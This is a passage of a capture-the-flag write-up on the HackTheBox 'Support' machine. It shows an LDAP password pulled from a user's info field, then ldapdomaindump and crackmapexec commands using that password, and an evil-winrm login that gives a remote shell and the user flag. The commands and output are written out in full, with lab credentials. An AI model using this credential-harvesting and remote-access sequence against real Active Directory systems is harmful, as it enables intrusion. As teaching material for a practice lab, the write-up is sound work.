“Ironside47pleasure40Watchful” looks like it could be a password, and given no first or last name, this looks like a shared account, so it makes sense that the password may be stored here.

I could see the same information with `ldapdomaindump`:

```
oxdf@hacky$ ldapdomaindump -u support.htb\\ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' support.htb -o ldap
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```

It’s important to note that the `info` shows up in the `.json` file, but not the `.html`:

```
oxdf@hacky$ grep Ironside *
domain_users.json:            "Ironside47pleasure40Watchful"
```

### Evil-WinRM

Looking at the Bloodhound data, support shows up there as a member of Remote Management Users:

![image-20220527142918001](https://0xdfimages.gitlab.io/img/image-20220527142918001.png)

`crackmapexec` confirms:

```
oxdf@hacky$ crackmapexec winrm support.htb -u support -p 'Ironside47pleasure40Watchful'
SMB         dc.support.htb  5985   DC               [*] Windows 10.0 Build 20348 (name:DC) (domain:support.htb)
HTTP        dc.support.htb  5985   DC               [*] http://dc.support.htb:5985/wsman
WINRM       dc.support.htb  5985   DC               [+] support.htb\support:Ironside47pleasure40Watchful (Pwn3d!)
```

I’ll connect with `evil-winrm` and get a shell:

```
oxdf@hacky$ evil-winrm -i support.h -u support -p 'Ironside47pleasure40Watchful'

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\support\Documents> 
```

And `user.txt`:

```
*Evil-WinRM* PS C:\Users\support\desktop> type user.txt
93ca1fe7************************
```
